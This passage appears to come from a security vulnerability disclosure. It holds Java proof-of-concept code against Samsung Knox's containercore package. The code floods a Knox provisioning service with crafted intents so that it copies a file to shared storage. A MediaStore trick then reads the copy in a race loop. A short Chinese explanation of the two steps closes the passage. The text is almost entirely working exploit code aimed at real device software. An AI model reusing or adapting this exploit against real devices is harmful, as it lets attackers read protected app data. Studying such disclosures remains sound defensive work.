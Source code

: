 ```
       i.setClassName("com.samsung.android.knox.containercore", "com.samsung.android.knox.containercore.provisioning.DualDARInitService");
       i.putExtra("DualDARServiceEventFlag", 500);
       i.putExtra("DUAL_DAR_IS_WPCOD", true);
       i.putExtra("DUAL_DAR_PARAMS", bundle);
       new Thread(() -> {
           for(int j = 1; j < 1000; j++) {
               startService(i);
               try {
                   Thread.sleep(500);
               } catch (Throwable th) {
                   throw new RuntimeException(th);
               }
           }
       }).start();
   }
   catch (Throwable th) {
       throw new RuntimeException(th);
   }
}

private void startDump() {
   final String path = "/sdcard/Android/data/com.samsung.android.knox.containercore/files/client_downloaded_knox_app.apk";

   ContentValues values = new ContentValues();
   values.put("_data", path);
   Uri uri = getContentResolver().insert(MediaStore.Files.getContentUri("external"), values);

   new Thread(new Runnable() {
       public void run() {
           while (true) {
               try {
                   InputStream i = getContentResolver().openInputStream(uri);
                   String data = IOUtils.toString(i);
                   Log.d("evil", data);
                   i.close();
               } catch (Throwable th) {
               }
           }
       }
   }).start();
}
```

### PoC 的工作原理如下：


1. 启动服务将所需文件复制到公共位置（由于这是一个无效的APK文件，安装错误后会立即删除），
2. 然后，`client_downloaded_knox_app.apk`读取文件。

